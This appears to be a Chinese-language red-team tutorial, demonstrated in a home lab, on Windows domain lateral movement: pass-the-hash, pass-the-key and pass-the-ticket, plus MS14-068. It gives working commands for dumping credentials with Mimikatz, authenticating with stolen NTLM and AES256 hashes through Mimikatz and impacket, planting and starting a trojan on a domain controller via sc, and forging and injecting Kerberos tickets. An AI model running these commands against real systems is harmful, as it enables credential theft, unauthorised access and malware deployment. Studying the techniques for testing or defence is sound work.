# 1. Mimikatz介绍

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从  lsass.exe 进程中获取当前登录系统用户名的密码，  lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在  lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz  正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

[mimikatz下载](https://github.com/gentilkiwi/mimikatz/)

# 2. 横向移动—PTH传递

## 2.1. PTH介绍

`Pass The Hash`简称PTH，也称之为`hash传递攻击`，该方式主要是通过找到与账户相关的密码散列值，通常情况下是使用`NTLM hash`来进行攻击，不过需要注意在`Windows server 2012 r2 `或者`Windows 7`之前使用道的密码散列值是`LM`、`NTLM`，而在之后则是使用到`NTLM`，而在域环境中计算机登陆的时候多数都是使用域账户来登陆，计算机在安装过程中为了方便，基本上会使用相同的账户密码，因此，如果计算机的本地管理员账户密码都是相同的话，攻击者就可以利用哈希传递攻击的方式登陆到网络中其它的计算机上。

### 2.1.1. PTH来源

起初，用户在去登陆网站或者登陆需要验证的网站、客户端等等，都是使用明文，想必也都知道，在进行明文传输过程中，会被拦截，也就能够获取到明文的账户密码，而且如果网站出现漏洞，那么所有用户的账户密码都将泄露，由此，便产生了散列值的概念，当用户设置密码的时候，服务器会对用户输入的密码进行加密，而这中加密方式一般是不可逆的算法，当用户想要登陆网站成功，那么服务器就会对用户的密码进行散列值处理，同时与数据库内的散列值进行对比，倘若正确，那么表示验证成功。

目前主流的Windows操作系统，通常会使用`NTLM Hash`对访问的资源的用户进行身份验证，而早期版本的Windows 操作系统，则是使用`LM hash`对用户密码进行验证，而当密码长度大于15位的时候，就无法使用了，所以在后续的操作系统中都禁用了`LM hash`。

参考：[哈希传递攻击研究](https://www.freebuf.com/articles/web/291812.html)

### 2.1.2. PTH利用条件

`PTH`想要利用成功，前提条件就是拿到域内管理员组中用户的`NTML hash`，当然前期还需要想办法拿到域内成员主机，当然同时也要你拿到的`hash`与目标主机的hash是一直的，不然还是不行的，因为我们是通过`hash`传递来获取权限的。

关于`KB2871997补丁`后的影响，总结一下就是，对于没有打补丁的系统，系统内所有的用户都可以进行连接，也就是所有用户都可以进行hash传递攻击，但是如果打了补丁就只能针对`administrator`进行攻击。

## 2.2. NTLM传递—未打补丁演示

以下均是理想环境去演示。

### 2.2.1. 获取域控主机

这里首先获取内网一台域控主机的权限，一定要提权不然会出现很多的问题。



### 2.2.2. 获取密码

这里的获取密码，可以是明文，`hash`等等，想办法把所有密码都调出来，`CS`这里有很多的抓取方式，可以看到这里获取到很多的密码，如果你是自己搭建的域环境，那么会出现无法抓取到密码的情况，或者抓取不全的情况，有时候不是权限不足，而是这个密码没在你主机中运行过。



#### 2.2.2.1. 密码介绍

在这个密码中会，有`LM`与`NTLM`等等，其中`LM`主要是用于去访问不支持`NTLM`校验的`Windows`系统，而当支持`NTLM`的系统，就会直接使用`NTLM`来进行校验，而我们在进行测试的时候，需要根据目标主机的系统来进行选择。



### 2.2.3. 尝试连接

到这里就可以利用`NTLM`值尝试进行连接了，在`cs`中是自带`Mimikatz`的，但是有一个坏处就是，当使用完后，是在你所控的这太主机上弹出一个黑窗进行操作，当然只要胆子大.......

#### 2.2.3.1. 连接域控

这里我说是连接域控是由于我没开多少虚拟机，正常情况下，看到是先进行内网横向移动的，当然如果运气好一次直接获取到域控密码也行。

这里的密码就别在问我怎么获取到的了，`CS`中有`Minikatz`所以不需要添加`shell`，执行命令后，受控主机就弹出一个黑窗了，就可以执行命令了。

同时也是尝试的，只要有窗口弹出来就说明域内一定有一个主机与我们收集到的NTLM值想通。

```
mimikatz sekurlsa::pth /user:administrator /domain:192.168.20.10 /ntlm:579da618cfbfa85247acf1f800a280a4
```



#### 2.2.3.2. 连接对比

这里对比一下，使用`mimikatz`弹出的黑窗和受控主机自己的`cmd`执行连接，有什么不同，这里失误了，由于我之前给予了管理员权限，而且可能存在的缓存过多，导致连接一直显示能够成功。

所以，这里我切换了一下权限，可以看到域用户权限是无法访问的，而经过hash传递的窗口是能够连接的。

```
dir \\192.168.20.10\c$   (地址不识别的话可以换成计算机名)
```



### 2.2.4. 上线操作

先设置转发上线，由于域控是处于内网中，我们无法直接访问到，那么反弹shell也无法直接反弹回来，就需要设置一个转发上线，而这里转发上线设置我就不操作了，设置完在利用转发上线生成一个木马，再将木马复制给域控主机。

#### 2.2.4.1. 复制木马

将木马复制到目标主机上。

```
copy 木马 \\IP地址\位置
```


#### 2.2.4.2. SC命令介绍

详细的操作自行去搜搜。

```
SC
描述:
        SC 是用来与服务控制管理器和服务进行通信的命令行程序。
用法:
        sc <server> [command] [service name] <option1> <option2>...
        
        <server> 选项的格式为 "\\ServerName"
        可通过键入以下命令获取有关命令的更多帮助: "sc [command]"
        命令:
          query-----------查询服务的状态，
                          或枚举服务类型的状态。
          queryex---------查询服务的扩展状态，
                          或枚举服务类型的状态。
          start-----------启动服务。
          pause-----------向服务发送 PAUSE 控制请求。
          interrogate-----向服务发送 INTERROGATE 控制请求。
          continue--------向服务发送 CONTINUE 控制请求。
          stop------------向服务发送 STOP 请求。
          config----------更改服务的配置(永久)。
          description-----更改服务的描述。
          failure---------更改失败时服务执行的操作。
          failureflag-----更改服务的失败操作标志。
          sidtype---------更改服务的服务 SID 类型。
          privs-----------更改服务的所需特权。
          managedaccount--更改服务以将服务帐户密码
                          标记为由 LSA 管理。
          qc--------------查询服务的配置信息。
          qdescription----查询服务的描述。
          qfailure--------查询失败时服务执行的操作。
          qfailureflag----查询服务的失败操作标志。
          qsidtype--------查询服务的服务 SID 类型。
          qprivs----------查询服务的所需特权。
          qtriggerinfo----查询服务的触发器参数。
          qpreferrednode--查询服务的首选 NUMA 节点。
          qmanagedaccount-查询服务是否将帐户
                          与 LSA 管理的密码结合使用。
          qprotection-----查询服务的进程保护级别。
          quserservice----查询用户服务模板的本地实例。
          delete ----------(从注册表中)删除服务。
          create----------创建服务(并将其添加到注册表中)。
          control---------向服务发送控制。
          sdshow----------显示服务的安全描述符。
          sdset-----------设置服务的安全描述符。
          showsid---------显示与任意名称对应的服务 SID 字符串。
          triggerinfo-----配置服务的触发器参数。
          preferrednode---设置服务的首选 NUMA 节点。
          GetDisplayName--获取服务的 DisplayName。
          GetKeyName------获取服务的 ServiceKeyName。
          EnumDepend------枚举服务依赖关系。
```

#### 2.2.4.3. 执行木马

木马上传后，我们就需要执行木马，那么执行木马则使用SC命令来操作，关于这个命令我也不想介绍，直接自行搜搜吧。

```
sc \\192.168.20.10 create shell binpath= "c:\1313.exe"
sc \\192.168.20.10 start shell
```



#### 2.2.4.4. 查看上线情况

可以看到这里是成功上线了。



## 2.3. impacket套件

关于这个套件使用的方式和上篇写过的文章中利用的方式是一样的，只是之前都是使用hash加密去验证，这里就是将hash值替换成ntlm值，具体的使用方式就不说了，直接提供参考命令。

```
python3 psexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.10
python3  smbexec.py -hashes :579da618cfbfa85247acf1f800a280a4 /administrator@192.168.20.10
python3  wmiexec.py -hashes :579da618cfbfa85247acf1f800a280a4 /administrator@192.168.20.10
```

# 3. 横向移动—PTK传递

## 3.1. PTK介绍

pass the key （密钥传递攻击，简称 PTK）是在域中攻击 kerberos 认证的一种方式，原理是通过获取用户的aes，通过 kerberos 认证，可在NTLM认证被禁止的情况下用来实现类似pth的功能。

其实准确来说必须禁用NTLM，才能使用PTK来传递，同时必须打上补丁，两个条件缺一不可，才能使用，所以总体来说比较鸡肋。

## 3.2. aes256传递—打补丁演示

前面也介绍过，打了补丁不同的协议会出现不同的结果。

```
没打补丁：
	pth：所有用户均可以连接，使用lm或ntlm连接。
打了补丁：
	pth：只能连接administrator。
	ptk：所有用户均可以连接，使用aes256连接。
```

### 3.2.1. 微软公告

这里可以去查微软的公告对其的介绍：

[微软公告](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649)

[补丁下载](https://www.microsoft.com/zh-cn/download/details.aspx?id=42754)

我这里下载补丁是失败的，安装的Windows server 2012 R2是最新的，包含了该补丁。

### 3.2.2. 获取aes256

如果没打补丁使用pth还可以让所有用户都可以连接，那么就可以进行测试，打了补丁就只能使用administrator连接了，那么这里也就不演示PTH的administrator如何连接了，其实和上面未打补丁是一样的操作。

这里主要看一下ptk的操作，不过注意这里，这个aes256加密密码并不是administrator的密码，不知道为什么我的administrator的aes256一直获取不到，明文是能够获取到的。

```
mimikatz sekurlsa::ekeys  获取加密密码
mimikatz sekurlsa::logonPasswords 获取明文密码
```



### 3.2.3. 尝试连接

这里其实还是一样的采用只是加密方式不同，连接的方式都是一样的。

```
mimikatz sekurlsa::pth /user:administrator /domain:192.168.20.10 /aes256:225fb70cc0516e5ad0eb7a6755e8796c02d0110f83e9478f07b266cfb58ca565
```



### 3.2.4. 报错情况

上面输入完后，一样会在目标主机上跳出一个cmd的窗口，但是这里就出现一个问题，无法连接，通过查阅资料，如果对方机器未开启aes验证，也是不满足漏洞利用条件的，所以这里又会出现一个限制。



不过利用方式就是这样的，在实际的环境中，可以进行多出尝试。

# 4. 横向移动—PTT传递

## 4.1. PTT介绍

Pass-the-Ticket 攻击是一类利用后攻击，涉及盗窃和重复使用 Kerberos 票证，以在受感染的环境中对系统进行身份验证。在  Pass-the-Ticket 攻击中，攻击者从一台计算机上窃取 Kerberos 票证，并重新使用它来访问受感染环境中的另一台计算机。

## 4.2. PTT与PTH的区别

Pass-the-hash 和 pass-the-ticket 之间的一个主要区别是 Kerberos TGT ticket  会过期（默认为10小时），而 NTLM hashes 只有在用户改变密码时才会改变。因此，TGT  票必须在其有效期内使用，或者可以续期更长的时间（7天）。

同时PTT的攻击不是利用简单的NTLM认证，而是利用kerberos协议进行攻击。

## 4.3. kerberos协议介绍

Kerberos提供了单点登录（SSO，Single  Sign-On）机制，对于每个会话只需向服务进行一次自我验证，即可自动保护该会话过程中所有后续事务的安全。整个认证过程涉及3方（所以以三头犬命名~）：客户端、KDC、服务端(或者说应用服务器AP，比如web服务器)。

密钥分发中心KDC （Key Distribution Center）是 Kerberos 的核心组件，默认安装在域控里，由两个服务组成：

AS(Authentication Server)，负责用户信息认证，给客户端提供TGT（Ticket Granting Tickets，即黄金票据）。

TGS(Ticket Granting Server)，向客户端提供ST（Service Ticket，即白银票据）和Session Key（服务会话密钥）。

关于kerberos协议可以自行去百度搜索，这里主要介绍如何使用吧，同时主要介绍三种常见的攻击方式：MS14-068、Golden ticket、SLBVER ticket，同时这个过程简单来说就是将连接合法的票据注入到内存中实现连接。

## 4.4. MS14-068演示

MS14-068造成的危害是允许域内任何一个普通用户，将自己提升至域管权限，这里我并未校验成功，不知道是不是由于靶机的问题，在网上搜了一下，疑似是存在这方面的问题的，这里我也就不想深究了，整体的流程是没问题的。

这个就是利用漏洞生成的用户的新身份票据去验证。

### 4.4.1. MS14-068介绍

MS14-068是密钥分发中心服务中的Windows漏洞，它允许经过身份验证的用户在其 Kerberos 票证（TGT）中插入任意的 PAC（表示所有用户权限的结构）。该漏洞位于 kdcsvc.dll  域控制器的密钥分发中心(KDC)中。普通用户可以通过呈现具有改变了 PAC 的 Kerberos TGT  来获得票证，进而伪造票据获得管理员权限。

[MS14-068下载](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

这里需要注意的是这个工具大，不建议上传到主机中，可能在上传过程中出现丢失，可以在本地进行生成，再导入进去。

### 4.4.2. 查看SID

由于这里是将域内普通用户提升到域管用户，这里就不使用system用户来演示了。

```
shell whoami/user
```



### 4.4.3. 清空票据

这里清空票据是避免其它的域成员的凭证会影响到凭证伪造。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```



### 4.4.4. 生成票据

之前说生成本地票据的，但是发现生成不了，一直报错，没办法找了几台电脑测试成功了，好像打了补丁的电脑就无法利用这个工具生成这个票据。

```
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
```



### 4.4.5. 导入凭证

这里我们将凭证导入，返回的信息是能够看到到期时间的，默认是10个小时。

```
mimikatz kerberos::ptc TGT_jiji@yuto.com.ccache
```

